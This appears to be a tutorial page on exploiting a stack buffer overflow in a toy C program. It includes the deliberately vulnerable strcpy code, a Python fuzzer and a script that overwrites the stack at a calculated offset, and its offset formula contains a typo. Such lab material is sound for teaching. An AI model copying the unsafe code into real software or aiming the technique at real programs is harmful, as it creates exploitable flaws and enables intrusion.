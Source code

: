 # Exploiting Simple `C` Program


## Vulnerable Code

```cpp
#include <stdio.h>
#include <stdlib.h>

int functionFunction(char* param) {
	char* localString = "conjunction function";
	int localInt = 0xdeadbeef;
	char localString2[10];

	strcpy(localString2, param);
	return 1;
}

int main(int argc, char* argv[]) {
	char* localString = "main function";
	int localInt = 0x11223344;

	functionFunction(argv[1]);

	return 0;
}

```


## Finding Vulnerability

![](/assets_md/Pasted%20image%2020220320070358.png)

![](/assets_md/Pasted%20image%2020220320071628.png)

![](/assets_md/Pasted%20image%2020220320070720.png)


## Calculating Offset

**FUZZER SCRIPT**

```python
# simple fuzzer script (Tested on Windows_x32)
import subprocess

# Creating Long Argument String
file = "VulnCode1.exe"
argument = ""

for arg in range(0x11, 0xff):
	argument += chr(arg)

# Running file with Generated Argument
process = subprocess.Popen([file, argument], stderr=subprocess.PIPE, stdout=subprocess.PIPE)
stdout, stderr = process.communicate()
exit_code = process.wait()

print("EXIT CODE :", exit_code)

```

![](/assets_md/Pasted%20image%2020220320081548.png)

**OFFSET CALCULATION**

**`int(0x2f - 2x11)`**

![](/assets_md/Pasted%20image%2020220320081857.png)

**OFFSET TEST CODE**

```python
# simple test script (Tested on Windows_x32)
import subprocess

# Forging Offset Based Test Argument
file = "VulnCode1.exe"
offset = 30				# depends on above calculation
argument = "A" *offset + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde) + "BBBBCCCCDDDDEEEEFFFF"

# Running file with FORGED Argument
process = subprocess.Popen([file, argument], stderr=subprocess.PIPE, stdout=subprocess.PIPE)
stdout, stderr = process.communicate()
exit_code = process.wait()

print("EXIT CODE :", exit_code)
```

![](/assets_md/Pasted%20image%2020220320100929.png)


